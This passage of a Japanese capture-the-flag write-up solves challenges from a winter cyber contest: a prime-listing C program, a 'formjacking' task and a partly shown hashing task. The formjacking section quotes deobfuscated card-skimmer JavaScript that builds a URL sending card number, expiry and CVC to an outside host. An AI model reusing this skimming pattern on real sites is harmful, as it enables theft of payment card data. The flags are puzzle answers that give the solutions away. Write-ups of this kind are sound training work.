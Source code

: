 ```c
#include <stdio.h>
int main(){
    int i,j,k,l;
    k=(((10/2*4/10*4/2)+97)*10)-10;
    for(i=2;i<=k;++i){
        l=0;
        for(j=2;j<i;++j){
            if(i%j==0){
                l=1;
                break;
            }
        }
        if(l==0)
        printf("%d\r\n",i);
    }
    return 0;
}
```

実行してみると、素数の一覧が表示された。したがって、[素数一覧](https://mathlandscape.com/prime-table/)から探して、`337+2083`を計算してフラグ`flag{2420}`を得た。


## [PG] formjacking (200pts)
> 添付のファイルは「Card Stealer」と呼ばれるフォームからの入力値を外部へ送信するJavaScriptです。 カード情報が妥当な場合、その値は外部へ送信されるようなので追跡したいです。
> 【回答書式】 flag{n桁の半角英数記号}

難読化されたjavascriptコードが与えられる。[Deobfuscator](https://obf-io.deobfuscate.io/)を利用して、少しわかりやすくしたところ、次のような箇所が見つかる。

```javascript
function _0x3bb027() {
    const _0x3e5fd8 =
    "https://pg3.2025winter-cybercontest.net/pg3?cardnumber=" +
    encodeURIComponent(_0x9ae3dd) +
    "&exp-date=" +
    encodeURIComponent(_0x57060f) +
    "&cvc=" +
    encodeURIComponent(_0x33294f) +
    "&" +
    "Skimming=true";
    return _0x3e5fd8;
}
```

試しに、`https://pg3.2025winter-cybercontest.net/pg3?cardnumber=foo&exp-date=bar&cvc=baz&Skimming=true`にアクセスしたところ、フラグが得られた。

## [PG] loop in loop (300pts)

以下の要件を満たすプログラムを作成してください。 プログラムの言語は問いません。

> １．引数として以下の値を指定できる。
>
> 第一引数：文字列
> 第二引数：文字列
> ２．プログラム内部で引数に以下の処理を加える。
>
> それぞれの引数のハッシュ値を求める。ハッシュ関数にはRIPEMD160を使用する。
> 第一引数のハッシュ値の1文字目と第二引数のハッシュ値の1文字目を抜き出し、それらの値が両方数値だった場合、それらのXORを求める。そうでない場合は何も処理しない。
> 続いて、第一引数のハッシュ値の1文字目と第二引数のハッシュ値の2文字目を抜き出し、それらの値が両方数値だった場合、それらのXORを求める。そうでない場合は何も処理しない。
> 同様に、3文字目、4文字目と続け、と第二引数のハッシュ値の最後の文字まで行う。
> 続けて第一引数のハッシュ値の2文字目に対して第二引数のハッシュ値の1文字目から同様の処理を行う。
> 同様に第一引数のハッシュ値の3文字目、4文字目と続け、と第一引数のハッシュ値の最後の文字まで行う。
> それぞれの値を加算する。

[hint]: overflow == 0x0
[hint]: overflow == 0x3534333231307a79